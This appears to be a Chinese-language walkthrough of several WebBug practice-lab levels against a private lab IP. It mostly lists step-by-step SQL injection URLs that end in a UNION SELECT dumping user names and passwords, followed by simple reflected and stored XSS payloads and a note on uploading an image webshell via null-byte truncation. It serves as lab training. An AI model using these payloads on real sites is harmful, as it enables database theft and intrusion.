


### webbug less1
```SQL
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1'&submit=提交查询    #出错
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1 and 1=1 #&submit=提交查询 #正常输出
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1 and 1=2 %23&submit=提交查询  #输出通过上
## 判断不是数字型注入
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 %23&submit=提交查询  #查无数据
# 判断是字符注入
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=1 order by 4 %23 &submit=提交查询
查出行数为4行

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,null,group_concat(table_name) from information_schema.tables where table_schema=database() %23  &submit=提交查询  ##表

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,database() ,group_concat(column_name) from information_schema.columns where table_name='user' and table_schema=database()%23  &submit=提交查询   ##user表的字段

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,database() ,group_concat(uid,char(9),uname,char(9),pwd,char(9),bill)  from user%23  &submit=提交查询 #user表内容

```



##### 第十三关

xss
```
http://192.168.48.136/webbug/pentest/test/9/?id=<script>alert(12345)</script>
```

##### 第十四关
```
留言处填写 <script>alert(12345)</script> 点提交
```

##### 第十五关

上传图片马,0字节截断

